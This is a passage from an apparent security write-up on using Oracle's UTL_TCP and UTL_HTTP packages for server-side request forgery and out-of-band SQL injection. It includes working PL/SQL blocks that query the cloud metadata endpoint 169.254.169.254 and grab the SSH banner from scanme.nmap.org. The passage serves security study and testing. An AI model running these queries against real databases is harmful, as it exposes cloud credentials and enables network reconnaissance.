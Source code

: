 The example [on the Oracle documentation site shows how you can use this package to make a raw TCP connection to fetch a web page](https://docs.oracle.com/cd/B28359_01/appdev.111/b28419/u_tcp.htm#i1004190). We can simply it a little more and use it to make requests to the metadata instance for example or to an arbitrary TCP/IP service.

```
set serveroutput on size 30000;
SET SERVEROUTPUT ON
DECLARE c utl_tcp.connection;
  retval pls_integer;
BEGIN
  c := utl_tcp.open_connection('169.254.169.254',80,tx_timeout => 2);
  retval := utl_tcp.write_line(c, 'GET /latest/meta-data/ HTTP/1.0');
  retval := utl_tcp.write_line(c);
  BEGIN
    LOOP
      dbms_output.put_line(utl_tcp.get_line(c, TRUE));
    END LOOP;
  EXCEPTION
    WHEN utl_tcp.end_of_input THEN
      NULL;
  END;
  utl_tcp.close_connection(c);
END;
/
```

```
DECLARE c utl_tcp.connection;
  retval pls_integer;
BEGIN
  c := utl_tcp.open_connection('scanme.nmap.org',22,tx_timeout => 4);
  retval := utl_tcp.write_line(c);
  BEGIN
    LOOP
      dbms_output.put_line(utl_tcp.get_line(c, TRUE));
    END LOOP;
  EXCEPTION
    WHEN utl_tcp.end_of_input THEN
      NULL;
  END;
  utl_tcp.close_connection(c);
END;
```

Interestingly, due to the ability to craft raw TCP requests, this package can also be used to query the Instance meta-data service of all cloud providers as the method type and additional headers can all be passed within the TCP request.

**UTL_HTTP and Web Requests**

Perhaps the most common and widely documented technique in every Out of Band Oracle SQL Injection tutorial out there is the [`UTL_HTTP` package](https://docs.oracle.com/database/121/ARPLS/u_http.htm#ARPLS070). This package is defined by the documentation as - `The UTL_HTTP package makes Hypertext Transfer Protocol (HTTP) callouts from SQL and PL/SQL. You can use it to access data on the Internet over HTTP.`
